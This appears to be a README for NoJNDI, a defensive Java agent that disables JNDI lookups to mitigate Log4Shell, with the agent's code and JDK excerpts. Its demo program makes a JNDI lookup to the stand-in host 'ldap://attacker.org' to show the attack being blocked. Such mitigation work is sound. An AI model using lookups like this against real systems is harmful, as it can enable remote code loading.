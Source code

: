 # NoJNDI

This is a simple proof of concept agent that disables JNDI lookups globally across the JVM.

This is useful for mitigating the Log4Shell attack, but is also applicable to any situation that may be doing unsafe `ctx.lookup` calls on unvalidated input.

## Running

```
java -javaagent:nojndi-agent-0.1.0-SNAPSHOT.jar MyApp
```

## How It Works

The `javax.naming.spi.NamingManager` class is responsible for setting an initial context, using the `setInitialContextFactoryBuilder` method.   Once installed, the builder cannot be replaced.

The agent immediately sets this in the `premain` method to return an `InitialContextFactory` that always throws a `NoPermissionException`.

A program running with this agent will do attempt to do a blind lookup:

```java
public class Main {

    public static void main(String[] args) throws Exception {
        System.out.println("About to try JNDI lookup!");
        try {
            Context ctx = new InitialContext();
            String datasource = "ldap://attacker.org";
            ctx.lookup(datasource);

            // Happens on normal circumstances...
            System.err.println("ATTACK SUCCEEDED: JNDI lookup call!");
        } catch (NamingException e) {
            // Happens on agent redefinition of java.lang.System
            System.out.println("ATTACK FAILED: " + e.getMessage());
        } catch (Exception e) {
            System.err.println("PROGRAM FAILED: " + e.getMessage());
        }
    }

}
```

When doing a lookup, `InitialContext` will find the default initial context, which calls `NamingManager.getInitialContext`:

```java

public class InitialContext implements Context {
    // ...
    public Object lookup(String name) throws NamingException {
        return getURLOrDefaultInitCtx(name).lookup(name);
    }

    protected Context getURLOrDefaultInitCtx(Name name)
        throws NamingException {
        if (NamingManager.hasInitialContextFactoryBuilder()) {
            return getDefaultInitCtx();
        }
        if (name.size() > 0) {
            String first = name.get(0);
            String scheme = getURLScheme(first);
            if (scheme != null) {
                Context ctx = NamingManager.getURLContext(scheme, myProps);
                if (ctx != null) {
                    return ctx;
                }
            }
        }
        return getDefaultInitCtx();
    }

    protected Context getDefaultInitCtx() throws NamingException{
        if (!gotDefault) {
            defaultInitCtx = NamingManager.getInitialContext(myProps);
            gotDefault = true;
        }
        if (defaultInitCtx == null)
            throw new NoInitialContextException();

        return defaultInitCtx;
    }
}
```

And then the `NamingManager.getInitialContext` calls `getInitialContextFactoryBuilder` as you'd expect:

```java
public class NamingManager {
    public static Context getInitialContext(Hashtable<?,?> env)
            throws NamingException {
        ClassLoader loader;
        InitialContextFactory factory = null;

        InitialContextFactoryBuilder builder = getInitialContextFactoryBuilder();
        if (builder == null) {
            // ...object factory stuff not relevant
        } else {
            factory = builder.createInitialContextFactory(env);
        }

        return factory.getInitialContext(env);
    }
}
```

From this point, it returns the `NoPermissionsInitialContextFactory` which nixes the operation.

```java
public class NoJndiAgent {
    private NoJndiAgent() {
    }

    public static void premain(String arg, Instrumentation inst) throws Exception {
        NamingManager.setInitialContextFactoryBuilder(environment -> new NoPermissionsInitialContextFactory());
    }

    public static class NoPermissionsInitialContextFactory implements InitialContextFactory {
        @Override
        public Context getInitialContext(Hashtable<?, ?> environment) throws NamingException {
            throw new NoPermissionException("JNDI is disabled!");
        }
    }
}
```

## Why It Works

JNDI is complicated in its internals, but practically speaking, JNDI is used for LDAP access.  If you're not using LDAP, you don't need JNDI.  Nuke it.

## But I Do Need JNDI!

There is a subset of Java applications that do need JNDI, mostly for LDAP authentication through JAAS.

In this situation, I think probably the best thing you can do is specify your own LDAP context factory to replace `com.sun.jndi.ldap.LdapCtxFactory` and enforce some whitelisting, and disable [every other kind of lookup](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html).

Failing that, you can at least override JNDI to integrate it into your logging and security infrastructure starting from here.

